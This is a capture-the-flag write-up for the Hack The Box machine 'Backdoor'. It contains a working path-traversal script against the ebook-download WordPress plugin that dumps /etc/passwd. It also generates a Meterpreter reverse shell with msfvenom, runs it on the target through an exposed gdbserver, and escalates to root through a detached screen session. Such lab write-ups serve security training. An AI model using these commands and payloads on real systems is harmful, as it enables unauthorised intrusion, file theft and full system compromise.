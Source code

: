 # Target
| Category          | Details                                                   |
|-------------------|-----------------------------------------------------------|
| 📝 **Name**       | [Backdoor](https://app.hackthebox.com/machines/Backdoor)  |  
| 🏷 **Type**       | HTB Machine                                               |
| 🖥 **OS**         | Linux                                                     |
| 🎯 **Difficulty** | Easy                                                      |
| 📁 **Tags**       | WordPress, ebook-download plugin, LFI, Metasploit, screen |

# Scan
```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
```

# Attack path
1. [Identify `gdbserver` running on port 1337 with `procbuster` and directory traversal in `ebook-download` WordPress plugin](#identify-gdbserver-running-on-port-1337-with-procbuster-and-directory-traversal-in-ebook-download-wordpress-plugin)
2. [Use publicly available `gdbserver` to gain initial foothold via uploaded and executed Meterpreter reverse shell](#use-publicly-available-gdbserver-to-gain-initial-foothold-via-uploaded-and-executed-meterpreter-reverse-shell)
3. [Escalate to `root` user using detached `screen` session](#escalate-to-root-user-using-detached-screen-session)

### Identify `gdbserver` running on port 1337 with `procbuster` and directory traversal in `ebook-download` WordPress plugin

#### Add `backdoor.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Backdoor]
└─$ echo "$TARGET backdoor.htb" | sudo tee -a /etc/hosts
10.129.96.68 backdoor.htb
```

#### Discovery vulnerable `ebook-download` WordPress plugin
```
┌──(magicrc㉿perun)-[~/attack/HTB Backdoor]
└─$ curl -s http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt | grep tag
Stable tag: 1.1
```

#### Prepare exploit to use path traversal vulnerability in `ebook-download` to access local files on target
```
┌──(magicrc㉿perun)-[~/attack/HTB Backdoor]
└─$ { cat <<'EOF'> exploit.sh
#!/bin/bash

curl -s -o - "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../..$1" \
    | sed "s|\(../../../../../..${1}\)\+||g" \
    | sed 's#<script>window\.close()</script>$##'
EOF
} && chmod +x exploit.sh && ./exploit.sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

#### Use [`procbuster`](https://github.com/magicrc/procbuster) and `exploit.sh` to find process listening on port 1337
```
┌──(magicrc㉿perun)-[~/attack/HTB Backdoor]
└─$ git clone -q https://github.com/magicrc/procbuster.git && \
./procbuster/procbuster.sh --file-read-cmd ./exploit.sh
PID     USER                 CMD
<SNIP>
988     user                 gdbserver --once 0.0.0.0:1337 /bin/true 
<SNIP>
```

### Use publicly available `gdbserver` to gain initial foothold via uploaded and executed Meterpreter reverse shell

#### Generate `linux/x64/meterpreter/reverse_tcp` reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Backdoor]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Backdoor]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x64/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.153:4444
```

#### Use `gdb` to spawn reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Backdoor]
└─$ gdb shell                                                  
GNU gdb (Debian 16.2-8) 16.2
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from shell...
(No debugging symbols found in shell)
(gdb) target extended-remote backdoor.htb:1337
Remote debugging using backdoor.htb:1337
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
(No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
(gdb) remote put shell shell
Successfully sent file "shell".
(gdb) set remote exec-file /home/user/shell
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program:  
Reading /home/user/shell from remote target...
Reading /home/user/shell from remote target...
Reading symbols from target:/home/user/shell...
(No debugging symbols found in target:/home/user/shell)
```

#### Confirm initial foothold gain
```
[*] Sending stage (3045380 bytes) to 10.129.96.68
[*] Meterpreter session 1 opened (10.10.14.153:4444 -> 10.129.96.68:38512) at 2025-08-18 21:42:22 +0200

meterpreter > getuid
Server username: user
```

### Escalate to `root` user using detached `screen` session

#### Identify detached `root` `screen` session
```
meterpreter > shell
Process 42125 created.
Channel 2 created.
ps aux      
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
<SNIP>
root        1002  0.0  0.1   6952  2468 ?        Ss   15:21   0:00 SCREEN -dmS root
<SNIP>
```

#### Stabilize shell and set `TERM`
```
/usr/bin/script -qc /bin/bash /dev/null
user@Backdoor:~$ export TERM=xterm
export TERM=xterm
user@Backdoor:~$
```

#### Attach to `root` `screen` session
```
user@Backdoor:~$ screen -x root/root
root@Backdoor:~# id                                                             
id                                                                              
uid=0(root) gid=0(root) groups=0(root)
```